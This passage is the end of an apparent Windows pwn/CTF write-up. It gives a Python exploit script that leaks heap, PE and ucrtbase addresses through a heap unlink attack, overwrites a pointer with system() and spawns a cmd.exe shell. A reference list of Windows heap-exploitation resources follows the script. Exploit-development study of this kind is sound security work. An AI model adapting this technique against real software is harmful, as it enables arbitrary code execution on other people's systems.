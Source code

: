 ```py
def exp():
    raw_input()
    #leak heap addr
    for i in range(6):
        Alloc(0x80)#0-5
    Delete(1)
    Delete(3)
    Show(1)
    heap_base = u32(p.recvn(4))
    log.success("heap base => " + hex(heap_base))
    bss_1 = heap_base-(0x5b0-0x4a4)
    Edit(1,p32(bss_1-4)+p32(bss_1))
    #unlink
    Delete(0)
    Edit(1,p32(bss_1-4))
    Show(1)
    pe_base = u32(p.recvn(3)+'\x00') - 0x1049
    log.success("pe base => " + hex(pe_base))
    #leak ucrtbase
    Edit(1,p32(pe_base+0x1049)+p32(pe_base+0x2054)+p32(pe_base+0x1049)+p32(bss_1-4))
    Show(1)
    ucrt_base = u32(p.recvn(4)) - (0x770c53e0-0x77080000)
    log.success("ucrt base => " + hex(ucrt_base))
    #
    system_addr = ucrt_base + (0x7716c730-0x77080000)
    #get shell
    Edit(2,p32(system_addr)+p32(bss_1+4)+"cmd.exe\x00")
    Show(1)
    p.interactive()

exp()
```

## 参考资料

非常感谢xxrw和lyyl两位大佬的指导 :)

[windbg的使用](https://www.lyyl.online/2019/10/09/windbg%E7%9A%84%E4%BD%BF%E7%94%A8/)

[WindowsPwn](https://blog.lyyl.online/2020/09/19/Windows-Pwn/)

[Heap-in-Windows](https://kirin-say.top/2020/01/01/Heap-in-Windows/)

[winpwn](https://xuanxuanblingbling.github.io/ctf/pwn/2020/07/09/winpwn/)

[Windows 10 Nt Heap Exploitation (Chinese version)](https://www.slideshare.net/AngelBoy1/windows-10-nt-heap-exploitation-chinese-version)
